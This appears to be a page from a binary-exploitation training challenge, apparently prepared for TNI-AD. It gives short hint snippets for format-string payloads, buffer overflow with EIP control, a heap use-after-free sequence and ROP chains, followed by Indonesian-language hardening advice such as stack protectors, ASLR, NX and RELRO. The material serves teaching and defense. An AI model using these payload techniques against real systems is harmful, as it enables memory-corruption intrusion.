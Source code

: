 
## 💡 Exploitation Hints

### Format String Exploitation:
```python
# Leak stack pointers
payload = "%p %p %p %p %p %p"

# Leak specific addresses
payload = "%6$p"  # Leak 6th parameter

# Arbitrary write
payload = "%64c%6$hhn"  # Write 64 to address at 6th parameter
```

### Buffer Overflow:
```python
# Find offset with cyclic pattern
from pwn import *
pattern = cyclic(200)

# Control EIP
payload = b"A" * offset + p32(target_address)
```

### Heap Exploitation:
```bash
# Trigger UAF sequence
1. classified -> allocate heap chunk
2. [overflow input] -> corrupt heap
3. classified -> use freed chunk
```

### ROP Chain Building:
```python
# Find gadgets
from ropper import *
gadgets = find_gadgets(binary_path)

# Build chain
rop_chain = p32(gadget1) + p32(gadget2) + p32(target_func)
```

---

## 🛡️ Defense Recommendations

Setelah berhasil melakukan exploitation, berikan rekomendasi untuk TNI-AD:

### Immediate Actions:
1. **Enable Stack Protection**: Compile dengan `-fstack-protector-strong`
2. **Enable ASLR**: `echo 2 > /proc/sys/kernel/randomize_va_space`
3. **Enable NX Bit**: Remove `-z execstack` flag
4. **Enable RELRO**: Use full RELRO protection
